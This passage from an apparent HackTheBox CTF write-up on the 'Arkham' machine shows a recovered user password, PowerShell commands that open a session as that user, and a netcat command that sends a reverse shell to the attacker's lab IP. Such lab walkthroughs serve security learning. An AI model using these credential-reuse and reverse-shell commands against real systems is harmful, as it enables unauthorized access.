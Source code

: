 ![pass-39](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/pass-39.png)

The password for `Batman`'s account is `Zx^#QZX+T!123`. I tried `psexec` and other methods from `impacket` to get a shell  but they all failed.
Instead we can use `New-PSession` cmdlet from powershell to start a session as another user. 

```cmd
powershell
PS> $username = "arkham\batman"
PS> $password = "Zx^#QZX+T!123"
PS> $secstr = New-Object -TypeName System.Security.SecureString
PS> $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS> $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
PS> new-pssession -computername . -credential $cred
PS> enter-pssession 1
```

This should give you a new powershell session as `Batman`:

![batman-40](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/batman-40.png)

This shell was very slow to me, so i ran `nc` to connect back to my machine:

```cmd
\windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.61 444
```
